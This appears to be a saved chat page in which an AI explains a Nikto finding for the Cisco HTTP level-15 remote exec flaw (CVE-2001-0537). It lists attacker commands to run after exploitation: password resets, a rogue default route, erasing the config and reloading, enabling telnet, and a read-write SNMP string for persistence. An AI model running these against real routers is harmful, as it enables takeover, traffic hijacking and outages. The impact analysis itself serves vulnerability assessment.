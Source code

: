 ## nikto said:
GET /level/33/exec//show: CISCO HTTP service allows remote execution of commands
# gpt said:
If an attacker successfully exploits this vulnerability (CVE-2001-0537) on a Cisco device, they gain access to **level 15** (privileged EXEC mode), which allows **full administrative control** over the router. Here are some dangerous commands that an attacker could run:

---

## **1. View the Running Configuration**

- **Command**: `show running-config`
- **Impact**:
    - Reveals sensitive information such as:
        - Username/password hashes
        - Access Control Lists (ACLs)
        - Interface IPs
        - Routing protocols
        - SNMP community strings

---

## **2. Show System and Version Information**

- **Commands**:
    - `show version` (IOS version, uptime, and hardware details)
    - `show hardware` (hardware-specific details)
    - `show interfaces` (interface status and IP addresses)
- **Impact**:
    - Provides details about the router model, IOS version, and vulnerabilities.

---

## **3. Modify or Reset Passwords**

- **Commands**:
    - `enable secret <new_password>`  
        Sets a new enable-level (admin) password.
    - `username <user> privilege 15 password <new_pass>`  
        Adds or resets user accounts with admin privileges.
- **Impact**:
    - Locks out legitimate administrators.

---

## **4. Disable Interfaces or Change IPs**

- **Commands**:
    - `interface <interface_name>`  
        E.g., `interface FastEthernet0/0`
    - `shutdown`  
        Disables the specified interface.
    - `ip address <new_ip> <subnet>`  
        Changes IP addresses on the router.
- **Impact**:
    - Disrupts network connectivity and routing.

---

## **5. Save Malicious Changes**

- **Commands**:
    - `write memory` or `copy running-config startup-config`  
        Saves the current (potentially malicious) configuration.
- **Impact**:
    - Ensures changes persist after a reboot.

---

## **6. Modify Access Control Lists (ACLs)**

- **Commands**:
    - `access-list <id> deny any`  
        Blocks traffic (e.g., internet, internal traffic).
    - `access-list <id> permit any`  
        Removes restrictions and allows all traffic.
- **Impact**:
    - Disables security policies and firewall-like rules.

---

## **7. Enable Debugging or Packet Capturing**

- **Commands**:
    - `debug ip packet`  
        Enables packet-level debugging.
    - `terminal monitor`  
        Displays debug output in real time.
- **Impact**:
    - Causes performance degradation and provides live traffic visibility.

---

## **8. Redirect Traffic or Hijack Routes**

- **Commands**:
    - `ip route 0.0.0.0 0.0.0.0 <malicious_gateway>`  
        Adds a rogue default route.
    - `router ospf 1` → `network <range> area 0`  
        Alters dynamic routing configurations.
- **Impact**:
    - Hijacks or redirects traffic to an attacker-controlled server.

---

## **9. Erase Configuration or Reload the Device**

- **Commands**:
    - `erase startup-config`  
        Deletes the saved configuration.
    - `reload`  
        Reboots the router.
- **Impact**:
    - Causes complete denial of service (DoS) and resets the router.

---

## **10. Enable Telnet or Other Services**

- **Commands**:
    - `line vty 0 4` → `transport input telnet`  
        Enables Telnet access.
    - `service tcp-keepalives-in`  
        Enables additional TCP services.
- **Impact**:
    - Opens up new access methods for persistent control.

---

## **11. Capture Passwords with SNMP**

- **Commands**:
    - `show snmp`  
        Reveals SNMP settings (community strings).
    - `snmp-server community <community_string> RW`  
        Configures a malicious SNMP string with read-write access.
- **Impact**:
    - Allows attackers to extract or modify configurations remotely via SNMP.

---

### **Summary**

An attacker with level 15 access can effectively take full control of the device:

1. View sensitive configurations (`show running-config`).
2. Disrupt services by shutting down interfaces or routes.
3. Lock out administrators by changing passwords.
4. Redirect traffic or install backdoors (e.g., enabling Telnet).
5. Permanently erase configurations or reboot the router.